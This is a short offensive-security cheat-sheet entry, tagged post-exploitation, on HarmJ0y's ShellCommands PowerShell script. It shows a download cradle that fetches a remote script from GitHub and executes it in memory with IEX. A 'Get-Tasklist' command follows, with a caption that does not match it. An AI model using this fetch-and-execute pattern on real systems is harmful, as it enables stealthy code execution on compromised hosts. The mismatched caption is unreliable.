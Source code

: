 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - enumeration-and-discovery
  - offensive-tools
  - windows
---
```

# Scripts

## HarmJ0y ShellCommands

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HarmJ0y/Misc-PowerShell/master/ShellCommands.ps1')
```

Retrieve route network configuration.

```
PS C:\> Get-Tasklist
```

---
## References

- [HarmJ0y: ShellCommands](https://github.com/HarmJ0y/Misc-PowerShell/blob/master/ShellCommands.ps1)